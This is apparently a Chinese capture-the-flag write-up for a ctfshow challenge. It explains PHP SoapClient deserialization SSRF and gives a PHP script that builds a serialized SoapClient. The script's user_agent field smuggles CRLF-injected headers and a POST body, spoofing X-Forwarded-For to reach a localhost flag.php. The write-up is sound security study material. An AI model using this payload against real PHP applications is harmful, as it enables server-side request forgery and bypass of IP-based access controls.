 # 知识点
### ssrf
[SoapClient反序列化SSRF](https://zhuanlan.zhihu.com/p/80918004)
### SoapClient类
[PHP: SoapClient - Manual](https://www.php.net/manual/en/class.soapclient.php)<br />这个类中有个__call魔术方法（当调用不存在的方法时触发），会调用SoapClient类的构造方法。<br />另外用到的一个文章识点就是CRLF，具体的可以先看下大佬写的[文章](https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html)
# 思路
```plsql
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```
![image.png](./images/20231017_2356503865.png)

